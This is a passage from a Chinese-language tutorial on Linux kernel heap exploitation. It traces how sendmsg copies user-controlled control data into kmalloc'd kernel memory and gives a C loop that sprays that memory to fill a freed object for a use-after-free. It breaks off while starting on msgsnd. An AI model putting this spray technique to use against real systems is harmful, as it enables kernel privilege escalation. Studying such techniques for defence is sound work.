 ```
                goto out_freeiov;
        }
        err = -EFAULT;
        /* 注意，msg_sys->msg_control是用户可控的用户缓冲区；ctl_len是用户可控的长度。  用户数据拷贝到ctl_buf内核空间。
         */
        if (copy_from_user(ctl_buf,
                   (void __user __force *)msg_sys->msg_control,
                   ctl_len))
            goto out_freectl;
        msg_sys->msg_control = ctl_buf;
    }
    msg_sys->msg_flags = flags;
...


```

**结论**：只要传入 size 大于 44，就能控制 kmalloc 申请的内核空间的数据。

**数据流**：

> `msg` ---> `msg_sys` ---> `msg_sys->msg_controllen` ---> `ctl_len`
> 
> `msg` ---> `msg_sys->msg_control` ---> `ctl_buf`

**利用流程**：

```
//限制: BUFF_SIZE > 44
char buff[BUFF_SIZE];
struct msghdr msg = {0};
struct sockaddr_in addr = {0};
int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
addr.sin_addr.s_addr = htonl(INADDR_LOOPBACK);
addr.sin_family = AF_INET;
addr.sin_port = htons(6666);
// 布置用户空间buff的内容
msg.msg_control = buff;
msg.msg_controllen = BUFF_SIZE; 
msg.msg_name = (caddr_t)&addr;
msg.msg_namelen = sizeof(addr);
// 假设此时已经产生释放对象，但指针未清空
for(int i = 0; i < 100000; i++) {
  sendmsg(sockfd, &msg, 0);
}
// 触发UAF即可


```

### （2）msgsnd

```
// /ipc/msg.c
SYSCALL_DEFINE4(msgsnd, int, msqid, struct msgbuf __user *, msgp, size_t, msgsz,
        int, msgflg)
{
    return ksys_msgsnd(msqid, msgp, msgsz, msgflg);
}
// /ipc/msg.c
long ksys_msgsnd(int msqid, struct msgbuf __user *msgp, size_t msgsz,
         int msgflg)
{
    long mtype;

    if (get_user(mtype, &msgp->mtype))
```